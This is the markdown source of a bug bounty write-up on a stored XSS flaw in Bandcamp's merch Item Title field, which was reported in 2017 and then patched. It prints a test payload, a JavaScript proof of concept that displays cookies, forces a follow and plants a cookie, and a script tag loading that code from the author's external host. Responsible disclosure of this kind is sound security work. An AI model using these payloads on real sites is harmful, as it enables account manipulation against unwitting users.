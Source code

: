 ```yaml
---
layout: post
title: "Stored XSS in BandCamp"
---
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Recently, while my friend <a href="https://twitter.com/_psycho_mantis" rel="noopener noreferrer" style="color:#DC0739;text-decoration:none;"><b>Alyssa Herrera</b></a> and I were collaborating on finding ffmpeg vulnerabilities in bug bounty programs, we came to learn that **Bandcamp** ran a bug bounty program. If you have never heard of BandCamp, it is essentially a platform that allows artists, fans, and labels to interact, connect, and support each other. 

I instantly was curious to see what I could find, so I signed up for an artist account and created a Bandcamp page. The first function I started to test was the **Add Music** function. This part of the site allows artists to add albums and tracks. I tested for IDOR and XSS, but sadly it wasn't vulnerable to either. 
 
The next function I thought I wanted to test was the **Add Merch** function. There were 2 main parameters in this function that I wanted to test for XSS in immediately. I wanted to see if either the *Item Title* or *Description* accepted / rendered any HTML.
I put in a simple XSS payload for both:  `<svg/onload=confirm(0)>`

I saved and published the new "merchandise", and voila:
NOTHING happened. It was sanitized and I was bummed that it didn't work.
Then I saw the **Buy Now** button, so I clicked it, which opened a new frame and my XSS fired! They were not correctly sanitizing the **Item Title** in this frame, thus allowing an attacker to simply insert any HTML or javascript. 

I am always reluctant in submitting an XSS with merely alert() because it just shows I was too lazy to actually come up with a cool proof-of-concept. 
With that in mind, I came up with this POC:
```javascript
alert("Stored XSS on BandCamp");
alert("Your cookies: " + document.cookie);
document.getElementById("follow-unfollow").click();alert("Thanks for the follow :^D");
document.cookie="hacker=cdl;path=/;domain=.bandcamp.com";  
```
Then changed the **Item Title** to `<script src=//sxcurity.pro/bandcamp.js></script>`
which made the victim follow me and set the cookie "hacker" to "cdl" for bandcamp.com and all subdomains in their browser!
<br>Proof of concept video: 
<iframe src="https://player.vimeo.com/video/224109910" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (6/29/2017) Reported XSS to Bandcamp via Email
- (6/30/2017) Confirmed, Patched, & Awarded with a $500 bounty!  

<br>
Thanks for reading,<br><br>
**Corben Douglas** (<font color="#E22A3C">@sxcurity</font>)
- https://hackerone.com/cdl
- https://twitter.com/sxcurity
- https://bugcrowd.com/c
- https://github.com/sxcurity
